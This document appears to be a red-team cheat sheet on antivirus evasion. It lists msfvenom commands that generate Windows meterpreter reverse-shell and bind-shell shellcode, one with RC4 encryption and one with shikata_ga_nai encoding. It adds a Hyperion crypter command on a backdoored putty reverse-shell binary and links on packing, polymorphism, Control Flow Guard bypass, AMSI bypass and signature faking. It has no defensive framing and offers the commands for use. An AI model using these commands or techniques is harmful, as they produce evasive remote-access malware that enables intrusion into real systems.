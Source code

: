 ### Crystal

- <https://github.com/js-on/WeaponizeCrystal/blob/main/shellcode_loader/shellcode_loader.cr>

## Generate shellcode

### msfvenom

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll`
- `msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more`

### C2 (Cobalt/Havoc what ever)

### ASM

- <https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/>

### Hyperion

- `wine hyperion.exe /root/payloads/shellter/shellter_putty_reverse_x86.exe`

## Manual obfuscation

### Static

- Packing
  - <https://pentester.blog/?p=39>
  - <https://github.com/frank2/packer-tutorial>
- Polymorph
  - <https://www.exploit-db.com/papers/13874>
- Signature hiding
  - <https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates>
- CFG
  - ROP
    - <https://improsec.com/tech-blog/bypassing-control-flow-guard-on-windows-10-part-ii>
  - <https://joshpitts.medium.com/hooking-control-flow-guard-cfg-for-fun-and-profit-31f951485545>
  - <https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=ade1cc22ee994c1b353326ae4cedccd29f33b8d0>
  - CFG flattening
    - <http://ac.inf.elte.hu/Vol_030_2009/003.pdf>
- Change logo/icon
  - <https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/resources?redirectedfrom=MSDN>
- Change date of compilation
- Bypass AMSI
  - <https://rastamouse.me/memory-patching-amsi-bypass/>
  - <https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/>
  - <https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/>
- Description
- Add signature
  - <https://gist.github.com/jenaye/a0132882fed7072ea2bce33da40e0de5>
